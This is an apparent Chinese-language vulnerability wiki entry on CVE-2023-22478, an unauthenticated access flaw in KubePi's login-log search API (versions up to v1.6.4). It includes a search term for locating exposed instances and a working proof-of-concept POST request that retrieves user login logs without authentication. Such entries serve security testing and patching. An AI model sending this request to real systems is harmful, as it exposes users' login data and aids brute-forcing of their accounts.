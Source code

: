 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户

## 漏洞影响

<a-checkbox checked>KubePi <= v1.6.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"kubepi"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1682440791240-01629ee9-05d4-4eff-a15f-aede8707d482.png)

补丁中对路由加了身份验证

![img](/assets/PeiQi-Wiki/img/1682440845494-1d058852-8474-4681-bd3e-6b1545000a75.png)

对应的接口为

![img](/assets/PeiQi-Wiki/img/1682440907690-5156d5b7-4e4d-4a33-9d79-7d489e0411a9.png)



验证POC

```php
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![img](/assets/PeiQi-Wiki/img/1682440828484-ab47f1ea-42c1-4ec1-af79-0832a6e277ad.png)